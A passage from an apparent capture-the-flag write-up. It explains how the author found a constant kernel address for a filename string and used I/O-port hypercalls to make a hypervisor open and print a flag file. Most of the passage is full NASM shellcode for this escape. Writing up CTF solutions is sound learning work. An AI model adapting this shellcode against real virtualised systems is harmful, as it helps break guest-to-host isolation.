 As we didn't have a debugger set up on the VM it wasn't immediately obvious how to find the address of the string, especially without leaks. But then we realised we could break on the hypercalls in the hypervisor and just examine the pointer which was passed. Amazingly this was a constant of `0x204380`. So now we could ask the hypervisor to open a file directly and pass a valid pointer to the filename in kernel memory.

The final shellcode to do this was:

```nasm 
; part2.asm

BITS 64

db '4294967268\2107670+a\31337\31337\31337\.'
times 20 nop

; Create string flag2 and attempt to open it
mov rax, 0x101010101010101
push rax
mov rax, 0x101013366606d67
xor [rsp], rax
xor rax, rax
mov al, 2
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
syscall

; "flag2" is now in kernel memory at 0x204380

; Use IO port to open the file with hypervisor
xor rdx, rdx
xor rcx, rcx
mov dx, 0x4444
mov cx, 0xc444
xor rdx, rcx
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101214281
xor [rsp], rax
pop rax
out dx, eax

; Read the flag onto the stack
xor rax, rax
xor rdi, rdi
mov dil, 3
mov rsi, rsp
xor rdx, rdx
mov dl, 64
syscall

; Write the file to stdout
xor rax, rax
inc rax
xor rdi, rdi
inc rdi
mov rsi, rsp
xor rdx, rdx
mov dl, 64
syscall

jmp $+0
```
(I forgot the shellcode didn't have to be null free, hence the extra xoring)